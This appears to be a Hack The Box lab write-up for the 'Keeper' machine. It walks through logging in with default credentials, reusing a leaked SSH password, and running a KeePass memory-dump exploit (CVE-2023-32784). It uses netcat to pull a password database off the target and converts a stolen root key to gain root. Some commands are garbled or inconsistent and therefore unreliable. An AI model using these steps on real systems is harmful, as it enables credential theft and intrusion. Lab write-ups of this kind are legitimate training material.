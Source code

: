 # Unlocking the Secrets of Keeper: A Journey to Root Access

<p align="center">
  <img src="https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/274cad23-f3e3-4ac9-b9a0-b2b6539d214e" align="center" alt="keeper-htb" />
</p>


## Introduction

In the exhilarating realm of ethical hacking, each machine encountered on platforms like Hack The Box presents fresh challenges and captivating discoveries. Keeper, an enigmatic HTB machine, follows suit. This guide will lead you through a systematic journey to conquer Keeper, navigating from the initial foothold to securing the coveted root flag. So, equip your virtual backpack, don your ethical hacker hat, and let's plunge into the adventure!

## Step 1: Setting the Stage

The first step is to identify the machine's IP address. We'll use this address to create a handy host entry for easy access.


```bash
echo "ip tickets.keeper.htb" | sudo tee -a /etc/hosts
```

## Step 2: Reconnaissance with Nmap
Now that we're properly set up, it's time to scan for open ports. We'll start with a basic scan to identify ports 22 (SSH) and 80 (HTTP).

```bash
nmap -p 22,80 tickets.keeper.htb/ipaddressofmachine
```

## Step 3: Exploring the Web
Access the machine's IP address in your browser and observe the redirection to the login page. It's time to play detective and try some random credentials. Miraculously, we're in!

```
Username: root
Password: password
```

## Step 4: The Admin Panel
Navigate to the admin section and prepare to uncover a user's password.

## Step 5: SSH Connection
Connect via SSH using the provided credentials:

```bash

ssh lnorgaard@tickets.keeper.htb Password: Welcome2023!
```

## Step 6: User Flag
With SSH access in hand, locate the user flag:

```bash

ls cat user.txt
```

## Step 7: The CVE and Keepass
Discover a critical CVE and grab the exploit from the following link: [CVE-2023-32784(poc.py)](10.10.11.227/poc.py). Download it to your local machine.

## Step 8: Moving Files
To transfer files between your local machine and the HTB machine, you can use netcat. Run the following commands:

## On the HTB machine:

```bash
nc -nlvp 1234 > poc.py
```

## On your local machine:

```bash
nc [keeperip] 1234 < poc.py
```

Verify the file transfer with ls and cat poc.py.

## Step 9: Exploiting Keepass
Execute the exploit on the HTB machine:


```bash
python3 poc.py -d KeePassDumpFull.dmp
```

_Retrieve the password: rødgrød med fløde_

## Step 10: Using Keepass
Back on your local machine, install Keepass2 with:

```bash

apt install keepass2
```

## Step 11: Unveiling the Secrets
On the HTB machine, locate passcodes.kdbx. Transfer it to your local machine using netcat.

## On your local machine:

```bash
nc -nlvp 1234 > passcodes.kdbx
```
After a brief wait, __press Ctrl+C__.

## Step 12: Keepass Unlocked
Open Keepass2, select "Open File," and choose passcodes.kdbx. Enter the password you found (rødgrød med fløde). Inside, you'll discover user and root credentials.

## Step 13: Root Access
Access the root SSH key, copy it, and save it as root.ppk. Use Puttygen to convert the key:

```bash
puttygen root.ppk -O private-openssh -o id_rsa
```
Finally, SSH into Keeper with root privileges:

```bash
ssh root@tickets.keeper.htb -i id_rsa
```
Discover the root flag:

```bash
ls cat root.txt
```

<hr><ht/>

  # CVE-2023-32784 
  ___KeePass2 Master Password Dumper (CVE-2023-32784)___

  This is a [CVE-2023-32784](https://nvd.nist.gov/vuln/detail/cve-2023-32784) proof-of-concept implemented in Rust. The code is probably ugly due to my poor coding skills, feel free to make a PR to improve it.


  CVE-Credit:vdohney
<hr><ht/>


 <p align="center">
   <a href="https://www.hackthebox.com/achievement/machine/672066/556" >
      <img src="https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/2f2ae09a-71f7-4895-b5eb-4008a5e7d69e" align="center" alt="keeper-htb" />
   </a>
</p>
  
# Conclusion:ss
Our experience in conquering the Keeper HTB machine was not only exciting but also educational. We trust that this guide has illuminated the path of ethical hacking, spanning from the initial reconnaissance phase to achieving root access. Always bear in mind that ethical hacking is a journey of learning, self-challenge, and continuous enhancement of your cybersecurity skills. Happy hacking!


